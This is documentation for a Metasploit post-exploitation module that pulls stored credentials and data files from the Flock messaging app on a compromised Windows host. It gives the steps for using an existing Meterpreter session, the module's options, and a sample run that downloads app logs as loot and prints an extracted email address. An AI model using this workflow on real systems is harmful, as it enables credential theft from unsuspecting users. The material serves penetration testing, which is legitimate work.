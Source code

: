 ## Module Description

This post-exploitation module gathers artifacts found on flock related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/flock
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
mmsf6 post(windows/gather/credentials/flock) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's *.log file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\file__0.indexeddb.leveldb\000124.log
[*] Flock 000124.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000124.log_227739.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_378223.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\https_auth.flock.com_0.indexeddb.leveldb\000004.log
[*] Flock 000004.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000004.log_041330.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_514565.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\Local Storage\leveldb\000008.log
[*] Flock 000008.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000008.log_824047.log

[+] email":"kazuyoshimaruta@outlook.jp","teamInfo":
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```